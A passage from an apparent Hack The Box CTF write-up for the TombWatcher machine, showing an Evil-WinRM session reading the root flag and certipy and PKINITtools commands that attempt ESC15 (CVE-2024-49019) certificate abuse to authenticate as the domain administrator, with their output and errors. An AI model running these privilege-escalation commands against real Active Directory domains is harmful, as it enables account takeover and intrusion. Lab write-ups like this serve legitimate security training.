 ```sh
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
6aec4679709db87682e8892801b59f01

Attempting to use the Client Authentication to trick KDC or Schannel (pkinittools / certipy auth to get hash), this does not work in this challenge for me
https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc15-arbitrary-application-policy-injection-in-v1-templates-cve-2024-49019-ekuwu
```sh
root@cace85f73c7d:/currentdir# certipy req -u 'cert_admin@tombwatcher.htb' -p 'Password1234!' -target 'tombwatcher.htb' -ca 'tombwatcher-CA-1' -template 'WEBSERVER' -upn 'administrator@tombwatcher.htb' -sid 'S-1-5-21-1392491010-1358638721-2126982587-500' -application-policies '1.3.6.1.5.5.7.3.2'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 27
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@tombwatcher.htb'
[*] Certificate object SID is 'S-1-5-21-1392491010-1358638721-2126982587-500'
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

```sh
root@cace85f73c7d:/currentdir# certipy auth -pfx administrator.pfx -dc-ip 10.129.6.179
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@tombwatcher.htb'
[*]     SAN URL SID: 'S-1-5-21-1392491010-1358638721-2126982587-500'
[*]     Security Extension SID: 'S-1-5-21-1392491010-1358638721-2126982587-500'
[*] Using principal: 'administrator@tombwatcher.htb'
[*] Trying to get TGT...
[-] Certificate is not valid for client authentication
[-] Check the certificate template and ensure it has the correct EKU(s)
[-] If you recently changed the certificate template, wait a few minutes for the change to propagate
[-] See the wiki for more information
```

```sh
(.venv)  ✘ tokugero@pangolin  ~/ctf/htb/season8/week4-tombwatcher/PKINITtools   master  python gettgtpkinit.py -cert-pfx ../administrator.pfx tombwatcher.htb/administrator ccache
2025-06-08 12:29:09,312 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-06-08 12:29:09,391 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
Traceback (most recent call last):
  File "/home/tokugero/ctf/htb/season8/week4-tombwatcher/PKINITtools/gettgtpkinit.py", line 349, in <module>
    main()
  File "/home/tokugero/ctf/htb/season8/week4-tombwatcher/PKINITtools/gettgtpkinit.py", line 345, in main
    amain(args)
  File "/home/tokugero/ctf/htb/season8/week4-tombwatcher/PKINITtools/gettgtpkinit.py", line 315, in amain
    res = sock.sendrecv(req)
          ^^^^^^^^^^^^^^^^^^
  File "/home/tokugero/ctf/htb/season8/week4-tombwatcher/.venv/lib/python3.12/site-packages/minikerberos/network/clientsocket.py", line 85, in sendrecv
    raise KerberosError(krb_message)
minikerberos.protocol.errors.KerberosError:  Error Name: KDC_ERR_INCONSISTENT_KEY_PURPOSE Detail: "Error message not found! Err code: 77" 
```
